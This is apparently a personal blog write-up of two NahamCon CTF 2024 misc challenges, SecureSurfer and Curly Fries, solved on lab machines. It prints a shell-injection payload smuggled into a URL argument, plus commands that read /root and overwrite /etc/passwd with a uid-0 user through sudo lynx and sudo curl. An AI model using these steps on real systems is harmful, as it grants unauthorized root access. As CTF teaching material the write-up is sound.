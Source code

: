 +++
title = "NahamCon CTF 2024 WriteUp - Misc"
date = "2024-05-25T21:17:45+03:00"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["CTF", "Lynx", "Curl", "Passwd"]
keywords = ["", ""]
description = ""
showFullContent = false
readingTime = false
hideComments = false
color = "" #color from the theme settings
toc = true
images = ["/img/nahamcon_ctf_2024/logo.jpeg"]
+++


## Introduction
NahamCon 2024 is taking place this weekend and they had a CTF as part of the online conference. I participated with team [fr334aks](https://twitter.com/fr334aks). 

We managed position 197. We did good on Web, Mobile and WarmUps but not well on other categories like Binary Exploitation and Crypto. 

{{< image src="/img/nahamcon_ctf_2024/cert.png" alt="" position="center" style="border-radius: 8px;" >}}

It was our first CTF of the year together, so it's not a bad start from a long break. Hopefully we get back to our winning ways :).

I only solved 2 challenges in Miscellaneous category that I am writing about in this post.


## 1. SecureSurfer

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_1.png" alt="" position="center" style="border-radius: 8px;" >}}

We begin with ssh access to the challenge environment, we are also provided with [securesurfer.c](/files/nahamcon_ctf_2024/securesurfer.c) file. Our objective is to gain root access to get the flag.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_2.png" alt="" position="center" style="border-radius: 8px;" >}}

When we ssh, it seems the securesurfer program is executed and we are provided with a few options. 

If we look at the code provided, the only option that takes user input is option 6 which is a url that will be loaded using lynx browser on the terminal. 

We can see that the user input is not sanitized/validated, the only check done is that the url has to begin with `https://`.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_4.png" alt="" position="center" style="border-radius: 8px;" >}}

We can therefore inject our own commands to break out of the program and into a shell. After the url we can inject the below payload.

```sh
';bash;'
```
Once lynx program is done loading the url, we get a bash shell.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_3.png" alt="" position="center" style="border-radius: 8px;" >}}

To escalate our privileges, we find that the securesurfer user can run lynx as root.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_5.png" alt="" position="center" style="border-radius: 8px;" >}}

We can then try accessing the root folder using the below command.

```sh
sudo /usr/local/bin/lynx file:///root
```
{{< image src="/img/nahamcon_ctf_2024/secure_surfer_6.png" alt="" position="center" style="border-radius: 8px;" >}}

Here we see the get flag binary, we can then download it to our local directory and execute it to get the flag.

```sh
sudo /usr/local/bin/lynx -source file:///root/get_flag_random_suffix_21505252448959 > get_flag
```
{{< image src="/img/nahamcon_ctf_2024/secure_surfer_7.png" alt="" position="center" style="border-radius: 8px;" >}}

If we wanted to get a root shell, one way is to overwrite the passwd file to add a user with root privileges.

We'll begin by creating a password hash for the user we want to add to the passwd file, the password here is **hacker**.

```sh
openssl passwd -1 -salt hacker hacker
```
Then we'll copy the current passwd file to our directory and add our new user to the file, using the below format where we specify the user with id 0 to give root privileges. The username is **hacker**.

```sh
echo 'hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash' >> passwd
```

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_8.png" alt="" position="center" style="border-radius: 8px;" >}}

Then we'll launch lynx and overwrite the /etc/passwd with our modified passwd file.

```sh
sudo /usr/local/bin/lynx file:///home/securesurfer/passwd
```
Once we are in lynx, we will press **P** which is the print option, and we select **Save to a local file** and press enter.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_9.png" alt="" position="center" style="border-radius: 8px;" >}}

We can then update the filename to /etc/passwd.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_10.png" alt="" position="center" style="border-radius: 8px;" >}}

Once we say yes to Overwrite the file, we can quit lynx and switch to the `hacker` user, using the password `hacker` to get a root shell.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_11.png" alt="" position="center" style="border-radius: 8px;" >}}


## 2. Curly Fries

{{< image src="/img/nahamcon_ctf_2024/curly_fries_1.png" alt="" position="center" style="border-radius: 8px;" >}}

For this challenge, we begin by ssh into the challenge environment. Our objective is to escalate to root and get the flag.

Our user has sudo privileges to run curl impersonating the user fry, however this configuration is not vulnerable to abuse.

{{< image src="/img/nahamcon_ctf_2024/curly_fries_2.png" alt="" position="center" style="border-radius: 8px;" >}}

Looking around, we find that in fry's home folder we can read the bash_history file. This gives us their password.

{{< image src="/img/nahamcon_ctf_2024/curly_fries_3.png" alt="" position="center" style="border-radius: 8px;" >}}

Switching to the user fry, we see they can run curl as root but the configuration includes a wildcard. This is different from the previous configuration and we can abuse it.

{{< image src="/img/nahamcon_ctf_2024/curly_fries_4.png" alt="" position="center" style="border-radius: 8px;" >}}

Similar to the previous challenge, we'll use curl to overwrite the passwd file with a modified version that has the hacker user with root privileges.

I set up a python web server to serve the modified passwd file and then downloaded it and perform the overwrite.

```sh
sudo /usr/bin/curl 127.0.0.1:8000/health-check -o /etc/passwd
```

{{< image src="/img/nahamcon_ctf_2024/curly_fries_5.png" alt="" position="center" style="border-radius: 8px;" >}}

## Conclusion
Thanks to John Hammond, NahamSec and the rest of challenge creators for putting together yet another great CTF this year. I didn't put in a lot of time to solve more challenges but I still had a good time.

You can catch the conference live here: [NahamCon CTF 2024 Live Stream](https://www.youtube.com/live/76mNNVVBht0?si=E2TKu8fJD6SNXFCR)

